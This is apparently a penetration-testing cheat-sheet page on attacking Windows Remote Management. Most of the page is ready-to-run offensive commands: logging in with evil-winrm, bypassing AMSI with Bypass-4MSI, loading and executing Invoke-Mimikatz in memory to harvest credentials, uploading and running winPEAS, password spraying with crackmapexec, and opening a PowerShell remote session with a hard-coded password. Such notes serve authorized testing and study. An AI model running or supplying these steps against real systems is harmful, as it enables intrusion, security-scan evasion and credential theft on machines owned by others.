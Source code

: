 # WinRM

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Windows Remote Management (WinRM)**</mark> is a simple Windows integrated <mark style="color:purple;">**remote management protocol**</mark> <mark style="color:yellow;">**based on the command line**</mark>. WinRM uses the **Simple Object Access Protocol (SOAP)** to establish connections to remote hosts and their applications. WinRM relies on TCP ports `5985` and `5986` for communication, with the last port `5986` using HTTPS. Services like remote sessions using PowerShell and event log merging require WinRM.

## <mark style="color:yellow;">Evil-WinRM</mark>

```bash
evil-winrm -i 13.13.13.13 -u venator17 -p password123
```

> use `menu` to see evil-winrm's commands and loaded scripts

> Before loading any script or executable we will need to bypass Antimalware Scan Interface (AMSI). We can do it by using `Bypass-4MSI` command, which patches it.

### <mark style="color:blue;">Load Scripts</mark>

```powershell
evil-winrm -i 13.13.13.13 -u venator17 -p password123 -s /opt/scripts/powershell # -s is location of scripts
Bypass-4MSI # Bypassing AMSI
Invoke-Mimikatz.ps1 # Loading it into memoryu
Invoke-Mimikatz # Executing
```

### <mark style="color:blue;">Loading Executables</mark>

```powershell
evil-winrm -i 13.13.13.13 -u venator17 -p password123 -e /opt/executables # -e is location of executables
Invoke-Binary /opt/executables/winPEAS.exe
```

### <mark style="color:blue;">Loading Files</mark>

> You can upload files only from directory you executed evil-winrm

```powershell
upload /opt/executables/winPEAS.exe
./winPEAS.exe
```

## <mark style="color:yellow;">Nmap WinRM</mark>

```bash
nmap -sV -sC 13.13.13.13 -p5985,5986 --disable-arp-ping -n
```

## <mark style="color:yellow;">CrackMapExec</mark>

```bash
crackmapexec winrm 13.13.13.13 -u user.list -p password
```

## <mark style="color:yellow;">PowerShell</mark>

```powershell
PS C:\> $password = ConvertTo-SecureString "password123" -AsPlainText -Force
PS C:\> $cred = new-object System.Management.Automation.PSCredential ("MILITECH\sreed", $password)
PS C:\> Enter-PSSession -ComputerName MILITECH-MS13 -Credential $cred
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/" %}
